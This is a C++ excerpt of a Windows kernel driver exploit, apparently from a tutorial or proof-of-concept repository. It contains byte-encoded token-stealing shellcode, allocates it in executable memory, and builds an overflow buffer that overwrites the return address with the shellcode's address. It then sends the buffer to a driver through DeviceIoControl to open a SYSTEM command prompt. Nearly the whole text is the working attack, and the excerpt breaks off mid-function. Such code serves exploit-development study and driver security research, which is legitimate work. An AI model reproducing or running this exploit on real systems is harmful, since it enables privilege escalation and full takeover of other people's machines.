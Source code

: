 ```c++
    // --------------------------------------------------------------------------- //
    //                  Preparing the shellcode payload to be sent
    // --------------------------------------------------------------------------- //
   char shellcodePayload[] = (
          "\x60"
          "\x64\xA1\x24\x01\x00\x00"
          "\x8B\x40\x50"
          "\x89\xC1"
          "\x8B\x98\xF8\x00\x00\x00"
          "\xBA\x04\x00\x00\x00"
          "\x8B\x80\xB8\x00\x00\x00"
          "\x2D\xB8\x00\x00\x00"
          "\x39\x90\xB4\x00\x00\x00"
          "\x75\xED"
          "\x8B\x90\xF8\x00\x00\x00"
          "\x89\x91\xF8\x00\x00\x00"
          "\x61"
          "\x5d"
          "\xc2\x08\x00"
          );

    LPVOID shellcode_address = VirtualAlloc(NULL,
                sizeof(shellcodePayload),
                MEM_RESERVE | MEM_COMMIT,
                PAGE_EXECUTE_READWRITE);

    memcpy(shellcode_address, shellcodePayload , sizeof(shellcodePayload));
    std::cout << "[+] Shellcode allocated at " << std::hex << shellcode_address << std::endl;

    // --------------------------------------------------------------------------- //
    //                  Now we prepare the user buffer to be sent
    // --------------------------------------------------------------------------- //

    std::cout << "[+] Preparing the buffer payload\n";

    BYTE userBuffer[0x830] = { 0 }; // should be 0x830 - 2096
    memset(userBuffer, '\x41', 0x828); // setting the buffer up to EIP
    // for above, buffer should be 0x828 - 2088

    std::cout << "[+] Allocating the user-mode buffer - " << sizeof(userBuffer) << std::endl;

    memcpy(userBuffer + 0x828, &shellcode_address, 0x4); // put the shellcode address right after the buffer
    // for above, userbuffer + 2088
    BYTE terminator[] = "\xb0\xb0\xd0\xba";
    memcpy(userBuffer + 0x82c, &terminator, 0x4);
  
    std::cout << "\t[+] Preparing terminator bytes\n";
  	std::cout << "\t[+] Finalization of the user buffer complete\n";
  
    std::cout << "[+] Sending final buffer of size: " << sizeof(userBuffer) << std::endl;
    DWORD sizeReturn = 0x0;
    int deviceCom = DeviceIoControl(hDevice,
                    IOCTL,
                    &userBuffer,
                    0xffffffff,
                    NULL,
                    0,
                    &sizeReturn,
                    NULL);
    if(deviceCom){
        std::cout << "[+] Successfully send buffer payload to the driver\n";
        std::cout << "[+] Spawning NT SYSTEM cmd prompt, enjoy!\n";
```